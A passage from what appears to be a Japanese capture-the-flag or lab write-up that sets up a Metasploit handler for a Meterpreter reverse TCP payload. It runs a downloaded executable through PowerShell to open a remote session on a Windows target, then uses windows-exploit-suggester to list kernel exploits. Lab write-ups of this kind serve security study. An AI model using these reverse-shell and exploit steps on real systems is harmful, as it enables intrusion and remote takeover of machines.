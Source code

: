 ```
msf5 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.9.27.249      yes       The listen address (an interface may be specified)
   LPORT     1111             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.9.27.249:1111
```
DL したスクリプトを実行というおなじみの流れで、

```
powershell "Start-Process "sheshe.exe" 
c:\Users\Public>powershell "Start-Process "sheshe.exe"

```
meterpreter に繋ぎかえられます。

```
[*] Started reverse TCP handler on 10.9.27.249:1111 
[*] Sending stage (180291 bytes) to 10.10.138.175
[*] Meterpreter session 1 opened (10.9.27.249:1111 -> 10.10.138.175:51236) at 2020-05-04 05:28:09 -0400

meterpreter > 

```

## windows-exploit-suggester.pyを使う

```
kali@kali:~$ ./windows-exploit-suggester.py --systeminfo sys.txt --database 2020-02-24-mssb.xls
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 8 hotfix(es) against the 266 potential bulletins(s) with a database of 137 known exploits
[*] there are now 249 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2012 R2 64-bit'
[*] 
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
```